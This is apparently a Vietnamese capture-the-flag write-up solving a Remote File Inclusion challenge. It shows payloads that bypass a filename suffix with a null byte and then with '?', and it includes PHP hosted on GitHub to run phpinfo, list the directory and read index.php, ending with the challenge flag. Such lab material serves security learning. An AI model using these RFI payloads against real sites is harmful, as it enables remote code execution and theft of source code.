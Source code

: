 # Remote File Inclusion

**30 Points** 

**Title**

Abbreviated RFI

**Statement**

Get the PHP source code.

## Analysis:

Một website với tính năng dịch 1 câu sang 2 ngôn ngữ (Anh/Pháp). Đây là một bài *RFI*, ta sẽ tìm input point, ở đây là biến `lang`. Thử input `../`

Thông báo lỗi xuất hiện, không thể mở file `../_lang.php` (RFI khả thi). Vậy là ta có thể đoán bên server dùng hàm **include()** và lấy giá trị của biến `page` và nối chuỗi với `_lang.php`

![image](images/warning1.png)

Testing một hồi thì ta thấy cũng không có **filter**

## Solution:

Vì tên bài là thuộc dạng RFI (Remote File Inclusion) nên ta sẽ thử request tài nguyên từ trang khác về và đẩy lên trang mình (quá trình này được xử lý bên server). Tuy nhiên, ta để ý rằng giá trị ta thêm vào biến `page` sẽ được nối thêm với chuỗi đằng sau nữa, điều này làm ảnh hưởng đến kết quả chúng ta. Một trong những cách bypass là chèn [Null-byte terminator](https://www.unix-ninja.com/p/Hacking_PHP_with_the_null_byte_terminator) vào để thực hiện việc nhúng(embed) mã nguồn trang đích vào. Ví dụ payload

```
https://github.com/khangtictoc%00
```

> NOTE: `%00` là ký tự ngắt chuỗi trong PHP, vì PHP được viết bằng C nên thừa kế tính năng này, tuy nhiên từ phiên bản PHP 5.3.4 trở đã được fixed, path file chứa NULL byte sẽ được xem là không hợp lệ :((

![image](images/warning2.png)

Vậy là version PHP hiện tại >= 5.3.4. Không sao, ta vẫn còn các cách bypass khác, dùng `?` để mở ra một query string mới, cộng thêm việc cộng chuỗi đằng sau sẽ thành `?_lang.php`, tức là định nghĩa nhưng chưa làm gì với biến `_lang.php`. Payload:

```
https://github.com/khangtictoc?
```

![image](images/embedded1.png)

Trang đích đã được embed vào trang hiện tại. Thử nhúng một đoạn code PHP do ta tùy biến. Nơi chứa code đảm bảo chỉ chứa **Raw Source**, để làm việc này thì ta có nhiều công cụ như github, pastebin, ... có tính năng xem "raw" để lưu trữ code gốc (không thêm không bớt). Ở đây mình dùng **github** luôn cho tiện, không sử dụng tool nào hết.

Tạo repo mới (cho dễ nhìn thôi, tạo file trong repo cũ cũng OK) -> Tạo `file temp.php` chứa nội dung sau:

```php
<?php
phpinfo();
?>
```

Vào file xem dưới chế độ bản "Raw". Đảm bảo trong source code (Ctrl + U) chứa đúng code mình cần. Copy đường dẫn Raw, payload của mình:

```
https://raw.githubusercontent.com/anony123321ynona/Temp/main/temp.php?
```

![image](images/embedded2.png)

Thực thi được file PHP, giờ thì mình xem các file hiện có trong thư mục hiện tại, sử dụng hàm [scandir](https://www.php.net/manual/en/function.scandir.php). 

> NOTE: Hàm scandir sẽ trả về mảng key-value (associative array)

Thay đổi code trong file `temp.php`:

```php
<?php
print_r(scandir("."));
?>
```

Dùng payload cũ ở trên:

![image](images/embedded3.png)

Ta thấy có file `index.php`. Đọc ra và lấy flag thôi, `temp.php`:

```php
<?php
echo file_get_contents("index.php");
?>
```

Dùng payload cũ:

![image](images/embedded4.png)

Ta thấy page được load 2 lần, vậy là đã embed thành công. Vào source code kiểm tra mã nguồn file `index.php`

<p align="center"> <img src="images/flag.png"> </p>

Flag: **R3m0t3_iS_r3aL1y_3v1l**
